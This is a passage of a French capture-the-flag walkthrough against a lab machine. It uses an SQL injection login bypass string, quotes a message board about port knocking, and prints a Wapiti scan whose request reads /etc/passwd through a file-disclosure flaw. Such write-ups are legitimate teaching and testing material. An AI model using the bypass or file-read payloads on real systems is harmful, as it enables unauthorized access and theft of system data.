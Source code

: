 Pour le moment je n'utilise pas `sqlmap`. En effet si on rentre l'utilisateur `admin` et le mot de passe `' or '1'='1` on se retrouve directement connecté avec un utilisateur nommé `alamo`.

La page d'index reçoit un paramètre page qui contient le nom d'un fichier PHP. Par exemple avec http://192.168.242.135/?page=messageboard.php (l'un des liens) on trouve une discussion :

> **jjames:**(2011-11-17 07:06:25)  
> I'm having problems connecting to the ssh server. I keep getting a Connection refused error. Is there a problem I don't know about???
> 
> **ltorvalds:**(2011-11-17 08:03:15)  
> Check your email. There is no problem with the server or the system. As of late we have been experiencing an increased occurance of brute force attacks on our ssh server. In an attempt to stop this we have implemented a port knocking system using knockknock. A seperate profile has been generated for each user of this system. You will, however, need to install knockknock on your local system. It can be downloaded [here](http://192.168.242.135/misc/knockknock-0.7.tar.gz) or from http://www.thoughtcrime.org/software/knockknock/. If you have any problem with installation or getting knockknock to work just drop me an email or ask here.
> 
> **rtmorris:**(2011-11-17 10:14:11)  
> thanks gary :)
> 
> **jjames:**(2011-11-17 13:36:19)  
> Okay thanks Linus, I've got it working now.
> 
> **jdraper:**(2011-11-17 19:54:31)  
> I've got knockknock installed but I'm not exactly sure what to do with the profile.tar.gz file I got in the mail, could anyone help me out?
> 
> **ltorvalds:**(2011-11-18 08:04:51)  
> First create a knockknock dir in your home dir with 'mkdir ~/.knockknock/', then create a folder inside the .knockknock dir called either the ip of this machine or the domain. I use 'mkdir ~/.knockknock/nakimura.example.net'. Finally extract the tarball you recieved in the mail to that directory.

Il est visiblement question de port-knocking. On verra si on a besoin d'en arriver là. Je remarque aussi que le bypass de l'authentification nous a défini un cookie nommé `uid` qui a dans notre cas la valeur `1`.

Je peux attaquer d'autres scripts de la partie authentifiée en passant le cookie à Wapiti. L'un des scripts semble être un bon candidat à un directory traversal :

```bash
$ wapiti -u "http://192.168.242.135/index.php?page=ssp.php" -H "Cookie: uid=1;" --scope url -v2 --color --detailed-report
--- snip ---
---
Linux local file disclosure vulnerability in http://192.168.242.135/index.php via injection in the parameter text_file_name
Evil request:
    POST /index.php?page=ssp.php HTTP/1.1
    host: 192.168.242.135
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    cookie: uid=1;
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.135/index.php?page=ssp.php
    content-length: 45
    Content-Type: application/x-www-form-urlencoded

    B=Display%20File&text_file_name=%2Fetc%2Fpasswd
---
```
